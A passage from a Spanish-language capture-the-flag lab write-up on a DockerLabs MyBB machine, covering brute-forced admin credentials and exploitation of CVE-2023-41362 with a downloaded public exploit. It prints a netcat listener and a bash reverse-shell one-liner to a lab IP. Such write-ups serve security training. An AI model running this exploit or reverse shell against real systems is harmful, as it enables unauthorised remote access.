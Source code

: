 
Hydra genera varias contraseñas posibles. Después de probarlas manualmente, consigo acceder con las siguientes credenciales: `admin`:`babygirl`.

---
## CVE Exploitation

![](/assets/img/dockerlabs-writeup-mybb/mybb1_21.png)

Ya dentro del panel de administración, verifico la versión de MyBB instalada. Encuentro que esta versión es vulnerable a una inyección de código en usuarios con privilegios administrador. [CVE-2023-41362](https://nvd.nist.gov/vuln/detail/cve-2023-41362)

Descargo y ejecuto un exploit público para aprovechar esta vulnerabilidad.

<https://github.com/SorceryIE/CVE-2023-41362_MyBB_ACP_RCE>

```terminal
/home/kali/Documents/dockerlabs/mybb:-$ wget https://raw.githubusercontent.com/SorceryIE/CVE-2023-41362_MyBB_ACP_RCE/refs/heads/main/exploit.py

/home/kali/Documents/dockerlabs/mybb:-$ python3 exploit.py http://panel.mybb.dl/ admin babygirl

/home/kali/Documents/dockerlabs/mybb:-$ nc -lnvp 1234
	listening on [any] 1234 ...

Enter Command> bash -c 'bash -i >& /dev/tcp/192.168.0.171/1234 0>&1'
```

![](/assets/img/dockerlabs-writeup-mybb/mybb1_22.png)
